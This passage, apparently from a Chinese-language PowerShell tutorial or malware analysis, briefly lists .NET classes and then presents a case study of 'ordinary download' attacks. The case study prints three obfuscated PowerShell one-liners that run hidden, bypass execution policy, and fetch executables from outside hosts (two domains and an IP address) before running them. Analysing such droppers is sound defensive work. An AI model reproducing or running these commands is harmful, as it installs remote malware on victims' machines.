 - 操作字符串

[System.String]类拥有操作字符串的静态方法。

- 操作日期和时间

[System.DataTime]对象存储日期和时间并对其执行计算。

- 转换值

[System.Conver]对象允许将值从一种数值格式转换为另一种数值格式。

- 数学函数

[System.Math]对象拥有大量的静态函数，可以使用它们执行计算。

#### 4.2.3、案例分析

#####（1）案例1-普通下载

```
第一个：

powershell -WindowStyle Hidden $wscript = new-object -ComObject WScript.Shell;$webclient = new-object System.Net.WebClient;$random = new-object random;$urls = 'http://commercset.pl/file/jet.jkl'.Split(',');$name = $random.next(1, 65536);$path = $env:temp + '\' + $name + '.exe';foreach($url in $urls){try{$webclient.DownloadFile($url.ToString(), $path);Start-Process $path;break;}catch{write-host $_.Exception.Message;}}


第二个：

pOWErsHell.ExE -exEcUTIonPOLICy BYpAsS -nOprOFile -winDOWStyLE HiDden (NEW-objeCt SYSTeM.Net.weBCLIEnT).DOWNloaDfIlE('http://b.reich.io/dvltdc.exe','C:\Users\UserPII_791ce421809b22355905f0e9df666c58e5309959\AppData\Roaming.EXE');sTArt-PrOCeSS 'C:\Users\UserPII_791ce421809b22355905f0e9df666c58e5309959\AppData\Roaming.Exe'

第三个：

powErsheLL.EXe -WindowSTYlE HIDdeN -NoPrOfIle -EXeCuTionPOlicy bypaSS (NEW-ObjECt SySTEm.Net.WEbCLIent).DOwNLOadFiLe('http://182.255.5.201/~bemkmund/two/files/fresh/whe.exe','C:\Users\办票间~1\AppData\Local\Temp\\doce.exe')
```







